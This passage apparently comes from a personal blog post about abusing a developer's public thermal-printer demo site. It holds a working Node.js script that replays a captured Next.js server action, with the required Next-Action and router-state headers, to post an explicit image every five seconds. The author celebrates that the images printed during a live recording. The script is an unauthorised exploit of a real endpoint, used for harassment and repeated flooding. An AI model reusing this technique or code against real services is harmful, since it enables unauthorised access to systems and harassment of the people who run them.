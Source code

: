 I had a really narrow time frame to work with, but that's when my vast experience in doing homework right before the deadline came in clutch and allowed me to reverse-engineer the photo submission mechanism and produce the following script to send a Dick pic just as long as the server was up.

```js
import { readFileSync } from 'fs';
import { setTimeout } from 'timers/promises';

const dickPic = 'data:image/png;base64,'
  + Buffer.from(readFileSync('dick.png')).toString('base64');

async function sendDickPics() {
  let ok = true;

  while (ok) {
    await setTimeout(5000);

    const res = await fetch('https://local.wesbos.com/', {
      method: 'POST',
      body: JSON.stringify([dickPic]),
      headers: {
        'Next-Action': '6ee7743577654da9ae36dc07718e86a493377b1d',
        'Next-Router-State-Tree': '%5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%2C%22%2F%22%2C%22refresh%22%5D%7D%2Cnull%2Cnull%2Ctrue%5D'
      }
    });
    const resText = await res.text();

    if (res.ok) {
      console.log('DICK PIC SENT!');
    } else {
      console.log(res.status);
    }

    console.log(resText);
    ok = res.ok;
  }
}

sendDickPics();
```

The hardest part was figuring out that the `Next-Action` and `Next-Router-State-Tree` headers were necessary to trigger the bit of server-side code responsible for interfacing with the thermal printer. If you were to omit them, you'd get a `200 OK` HTTP status code, but also a generic _Not Found_ page in the response body. That's why I decided to log it in my script.

At any rate, I ran the script and after 5 seconds, there was a success message along with the expected JSON response from the API endpoint. 5 seconds later, another one. And yet another one, until about a minute or so later, the handler got disabled and it only took another minute for Wes to send [a follow-up tweet](https://x.com/wesbos/status/1825568577040093426). And sure enough, there were a handful of Dick pics being printed as he was recording!
